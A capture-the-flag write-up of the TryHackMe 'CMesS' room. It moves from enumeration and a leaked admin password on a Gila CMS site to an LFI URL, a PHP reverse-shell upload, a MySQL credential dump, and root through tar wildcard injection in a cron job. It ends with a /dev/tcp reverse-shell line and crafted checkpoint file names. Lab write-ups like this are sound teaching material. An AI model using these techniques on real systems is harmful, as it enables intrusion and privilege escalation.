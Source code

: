 # [CMesS](https://tryhackme.com/room/cmess)

Before we start, following the hints, we add `MACHINE_IP cmess.thm` to our `/etc/hosts`. We also note that there should be no brute-forcing.

To start off, we run `nmap`.

```
# Nmap 7.92 scan initiated Sat Dec 11 14:53:16 2021 as: nmap -vvv -p 22,80 -sCV -oA init 10.10.74.49
Nmap scan report for cmess.thm (10.10.74.49)
Host is up, received syn-ack (0.21s latency).
Scanned at 2021-12-11 14:53:17 +07 for 14s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvfxduhH7oHBPaAYuN66Mf6eL6AJVYqiFAh6Z0gBpD08k+pzxZDtbA3cdniBw3+DHe/uKizsF0vcAqoy8jHEXOOdsOmJEqYXjLJSayzjnPwFcuaVaKOjrlmWIKv6zwurudO9kJjylYksl0F/mRT6ou1+UtE2K7lDDiy4H3CkBZALJvA0q1CNc53sokAUsf5eEh8/t8oL+QWyVhtcbIcRcqUDZ68UcsTd7K7Q1+GbxNa3wftE0xKZ+63nZCVz7AFEfYF++glFsHj5VH2vF+dJMTkV0jB9hpouKPGYmxJK3DjHbHk5jN9KERahvqQhVTYSy2noh9CBuCYv7fE2DsuDIF
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGOVQ0bHJHx9Dpyf9yscggpEywarn6ZXqgKs1UidXeQqyC765WpF63FHmeFP10e8Vd3HTdT3d/T8Nk3Ojt8mbds=
|   256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUGmaB6zNbqDfDaG52mR3Ku2wYe1jZX/x57d94nxxkC
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries
|_/src/ /themes/ /lib/
|_http-generator: Gila CMS
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 11 14:53:31 2021 -- 1 IP address (1 host up) scanned in 14.44 seconds
```

We just have SSH and a web server on port 80. Looking at the web server, we see that we have Gila CMS. Since we have a domain name, we can try fuzzing for subdomains.

```sh
$ ffuf -u 'http://cmess.thm/' -H 'Host: FUZZ.cmess.thm' -w ~/tools/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -fw 522

dev                     [Status: 200, Size: 934, Words: 191, Lines: 31, Duration: 226ms]
```

We add `dev.cmess.thm` to our `/etc/hosts` and take a look at the site. Right on the front page is a conversation giving us a few usernames and the password for andre. I tried to SSH in with that but it didn't work. Since the conversation on the `dev` page mentioned an admin panel, we can try accessing `/admin` which gives us a login page. We can login with `andre@cmess.thm` and the password from the `dev` page.

After logging in, we can see at the bottom of the page that we have Gila CMS version 1.10.9. We can look up exploits known for this version.

```sh
$ searchsploit gila cms
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Gila CMS 1.11.8 - 'query' SQL Injection                                              | php/webapps/48590.py
Gila CMS 1.9.1 - Cross-Site Scripting                                                | php/webapps/46557.txt
Gila CMS 2.0.0 - Remote Code Execution (Unauthenticated)                             | php/webapps/49412.py
Gila CMS < 1.11.1 - Local File Inclusion                                             | multiple/webapps/47407.txt
------------------------------------------------------------------------------------- ---------------------------------
```

Among the results, only `multiple/webapps/47407.txt` matches the version we're working with. Checking the exploit out, we see that we have LFI. We can easily exploit it as follows.

```
http://cmess.thm/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts
```

However, that sample URL doesn't seem to actually give us the machine's `hosts` file. Instead, we see that we have listing of a directory, as well as file upload capabilities. We can upload a PHP reverse shell at `http://cmess.thm/admin/fm?f=./`, set up a listener, and go to `http://cmess.thm/assets/shell.php` to trigger it and get a shell as `www-data` on the machine.

Looking in `/var/www/html`, we have `config.php` which contains database credentials. Checking listening ports ...

```sh
www-data@cmess:/var/www/html$ ss -lntp
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN     0      80     127.0.0.1:3306                     *:*
LISTEN     0      128          *:22                       *:*
LISTEN     0      128         :::80                      :::*
LISTEN     0      128         :::22                      :::*
```

... we see that we have MySQL running. We can login with the credentials found in `config.php`.

```sh
www-data@cmess:/var/www/html$ mysql -u root
```

After logging in, we enumerate the databases.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| gila               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

mysql> use gila
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
+----------------+
| Tables_in_gila |
+----------------+
| option         |
| page           |
| post           |
| postcategory   |
| postmeta       |
| user           |
| usermeta       |
| userrole       |
| widget         |
+----------------+

mysql> select * from user;
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
| id | username | email           | pass                                                         | active | reset_code | created             | updated             |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
|  1 | andre    | andre@cmess.thm | $2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa |      1 |            | 2020-02-06 18:20:34 | 2020-02-06 18:20:34 |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
```

We have a password hash. I tried cracking it with rockyou but to no avail.

Looking at `/opt`, we have the file `.password.bak` containing andre's password. With that, we can `su andre`.

As andre, we can try checking with `sudo -l` but andre isn't allowed to run `sudo`. Checking cron jobs in `/etc/crontab` ...

```
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

We see `tar` being run by root with a wildcard. We can abuse this by running the following in `/home/andre/backup`:

```sh
echo "bash -c 'exec bash -i &>/dev/tcp/LHOST/1337 <&1'" > shell.sh
touch -- '--checkpoint=1' '--checkpoint-action=exec=sh shell.sh'
```

After setting up a listener and a bit of waiting, we should have a root shell on the machine.
